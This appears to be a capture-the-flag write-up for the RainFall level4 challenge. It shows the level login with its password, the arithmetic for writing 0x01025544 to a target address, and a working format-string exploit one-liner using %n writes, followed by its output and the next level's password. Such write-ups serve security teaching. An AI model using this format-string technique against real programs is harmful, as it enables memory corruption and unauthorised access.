 Login as `level4`.
```shell
┌──$ [~/42/2021/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level4
level3@192.168.1.28's password: b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

0x08049810
0x01025544
0x44 = 68   | 4+4+4+4+x             = 68  (0x44)  : x = 52
0x55 = 85   | 4+4+4+4+52+x          = 85  (0x55)  : x = 17
0x02 = 2    | 4+4+4+4+52+17+x       = 258 (0x102) : x = 173
0x01 = 1    | 4+4+4+4+52+17+173+x   = 513 (0x201) : x = 255

```shell
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "\x11\x98\x04\x08" + "\x12\x98\x04\x08" + "\x13\x98\x04\x08" + "%1$052x%12$n" + "%1$017x%13$n" + "%1$0173x%14$n" + "%1$0255x%15$n"' | ./level4
00000000000000000000000000000000000000000000b7ff26b0000000000b7ff26b0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7ff26b00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000b7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

